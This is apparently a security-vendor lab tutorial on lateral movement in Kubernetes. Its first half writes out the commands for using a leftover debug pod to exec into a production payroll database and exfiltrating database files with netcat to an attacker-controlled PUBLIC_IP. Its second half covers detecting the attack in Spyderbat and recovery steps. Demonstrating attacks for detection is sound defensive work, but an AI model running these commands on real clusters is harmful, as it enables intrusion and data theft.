

# Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```
bash-4.2# id
uid=0(root) gid=0(root) groups=0(root)

bash-4.2# sudo -l
bash: sudo: command not found

bash-4.2# ps -aux
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod $(kubectl get pods -n lateral-movement-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file in `download`.

```
[ec2-user@ip-172-32-65-41 ~]$ ls -l
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.



At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.


Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.


With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.


From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

